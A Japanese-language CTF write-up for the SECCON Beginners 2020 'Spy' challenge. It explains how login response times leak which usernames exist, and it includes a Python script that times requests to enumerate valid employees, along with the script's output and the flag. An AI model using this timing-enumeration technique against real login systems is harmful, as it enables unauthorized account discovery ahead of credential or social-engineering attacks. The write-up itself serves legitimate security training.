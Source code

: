 # Spy
```
point:55 Beginner

As a spy, you are spying on the "ctf4b company".
You got the name-list of employees and the URL to the in-house web tool used by some of them.
Your task is to enumerate the employees who use this tool in order to make it available for social engineering.
　・app.py
　・employees.txt
```

<br>

## Solution

![1](https://user-images.githubusercontent.com/47602064/82751186-8b1f0800-9df0-11ea-9168-07db368f168a.png)

問題にはURLとソースコードとユーザ名簿リストが一緒に添付されています。

問題文より、loginページのDBに存在する従業員全員をchallengeページでチェックして提出すればflagがもらえるらしい。

問題のURLに移動するとログイン画面に移動します。

そこに`Go to challenge page`があるのでそちらも見てみます。

![2](https://user-images.githubusercontent.com/47602064/82751280-20220100-9df1-11ea-81a6-6c2fc4a9739a.png)

問題文からも読み取れるようにこのページで正しい選択をするとflagを表示してくれるようです。

<br>

プログラムの方を見てみると以下の部分に注目してみます。

```python
@app.route("/challenge", methods=["GET", "POST"])
def challenge():
    t = time.perf_counter()

    if request.method == "GET":
        return render_template("challenge.html", employees=employees, sec="{:.7f}".format(time.perf_counter()-t))

    if request.method == "POST":
        answer = request.form.getlist("answer")

        # If you can enumerate all accounts, I'll give you FLAG!
        if set(answer) == set(account.name for account in db.get_all_accounts()):
            message = app.FLAG
        else:
            message = "Wrong!!"

        return render_template("challenge.html", message=message, employees=employees, sec="{:.7f}".format(time.perf_counter()-t))
```

ここより、`POST`で正しい`answer`の組み合わせの場合は`app.FLAG`を表示させます。

<br>

loginページの方もソースコードを見てみると以下のような内容があります。

```python
@app.route("/", methods=["GET", "POST"])
def index():
    t = time.perf_counter()

    if request.method == "GET":
        return render_template("index.html", message="Please login.", sec="{:.7f}".format(time.perf_counter()-t))

    if request.method == "POST":
        name = request.form["name"]
        password = request.form["password"]

        exists, account = db.get_account(name)

        if not exists:
            return render_template("index.html", message="Login failed, try again.", sec="{:.7f}".format(time.perf_counter()-t))

        # auth.calc_password_hash(salt, password) adds salt and performs stretching so many times.
        # You know, it's really secure... isn't it? :-)
        hashed_password = auth.calc_password_hash(app.SALT, password)
        if hashed_password != account.password:
            return render_template("index.html", message="Login failed, try again.", sec="{:.7f}".format(time.perf_counter()-t))

        session["name"] = name
        return render_template("dashboard.html", sec="{:.7f}".format(time.perf_counter()-t))
```

それでこの問題の注目すべき点が各レスポンスの最後に処理時間が渡されていることです。

`sec="{:.7f}".format(time.perf_counter()-t)`

実際にブラウザで見てみると下の方に薄く表示されています。

![3](https://user-images.githubusercontent.com/47602064/82751766-7d6b8180-9df4-11ea-9f4a-32f74be350f8.png)

もう一度ソースコードを見てみます。

注目したところは以下の部分になります。

```python
if request.method == "POST":
        name = request.form["name"]
        password = request.form["password"]

        exists, account = db.get_account(name)

        if not exists:
            return render_template("index.html", message="Login failed, try again.", sec="{:.7f}".format(time.perf_counter()-t))

        # auth.calc_password_hash(salt, password) adds salt and performs stretching so many times.
        # You know, it's really secure... isn't it? :-)
        hashed_password = auth.calc_password_hash(app.SALT, password)
        if hashed_password != account.password:
            return render_template("index.html", message="Login failed, try again.", sec="{:.7f}".format(time.perf_counter()-t))
```

パスワードをハッシュ化している部分のコメントアウトを見てみると以下のことが書いてあります。

```python
# auth.calc_password_hash(salt, password) adds salt and performs stretching so many times.
# You know, it's really secure... isn't it? :-)
```

要するにハッシュ化の計算には時間がかかることが読みとれます。

これより入力したユーザ名がDBに存在すれば、パスワードをハッシュ化して判定をしています。

要するに、ユーザ名が存在すれば、その分「ハッシュ化とその判定」の処理があるため、

ユーザ名がDBに存在しない場合より、時間が少しかかります。

　-> `ユーザの存在有無でレスポンス時間に差異が生まれる`

<br>

なのでまずはloginページでDBに存在するユーザ名を探します。

手動の場合は一つ一つ試してみます。

<br>

自作したPythonのプログラムで判定をすると以下のようになりました。

```python
#!/usr/bin/python3
# -*- coding:utf-8 -*-

#ctf4b2020-web-Spy

import requests
import time

url = 'https://spy.quals.beginners.seccon.jp/'

with open('employees.txt', 'r') as f:
 datas = f.readlines()

def attack(username):
 payload = {'name': username, 'password': 'admin'}
 start = time.time()
 r = requests.post(url, data=payload)
 times = time.time() - start
 return times

#main
for i in datas:
 t = attack(i.strip())
 if (t > 0.2):
  print(i.strip(), t)
```

```
$ python3 solve.py 
Elbert 0.5595736503601074
George 0.5613911151885986
Lazarus 0.7148609161376953
Marc 0.9183754920959473
Tony 0.7479007244110107
Ximena 0.7864437103271484
Yvonne 0.7165195941925049
```

<br>

明らかに時間がかかっているのを探すと以下の7名のユーザが当てはまることがわかりました。

`Elbert, George, Lazarus, Marc, Tony, Ximena, Yvonne`

なのでこれを`chalenge page`で選択して`answer`してみるとflagが表示しました。

　`Burp`の`Intruder`を使って`Response received`でも測ることが出来ました。

![4](https://user-images.githubusercontent.com/47602064/82752028-56ae4a80-9df6-11ea-9659-7926bc05e505.png)

<br><br>

## FLAG: ctf4b{4cc0un7_3num3r4710n_by_51d3_ch4nn3l_4774ck}
